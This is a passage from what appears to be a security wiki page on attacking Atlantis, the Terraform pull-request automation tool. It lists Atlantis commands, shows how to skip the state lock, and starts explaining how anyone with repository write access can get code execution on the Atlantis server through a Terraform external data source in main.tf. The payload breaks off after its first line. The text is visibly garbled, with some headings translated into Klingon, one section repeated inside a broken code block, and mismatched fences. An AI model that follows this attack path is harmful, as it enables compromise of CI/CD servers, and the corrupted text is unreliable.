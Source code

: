 You can check how to configure it in [**the docs**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Atlantis Commands

[**In the docs**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) you can find the options you can use to run Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## tIq

{% hint style="warning" %}
vaj vItlhutlh **qagh**: `Error: Error acquiring the state lock`

vaj vItlhutlh vItlhutlh:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - Config modification in new PR

If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can **execute `atlantis plan`** (or maybe it's automatically executed) **you will be able to RCE inside the Atlantis server**.

You can do this by making [**Atlantis load an external data source**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Just put a payload like the following in the `main.tf` file:

```klingon
{% endhint %}

### Atlantis plan RCE - Config modification in new PR

If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can **execute `atlantis plan`** (or maybe it's automatically executed) **you will be able to RCE inside the Atlantis server**.

You can do this by making [**Atlantis load an external data source**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Just put a payload like the following in the `main.tf` file:```
```json
data "external" "example" {
```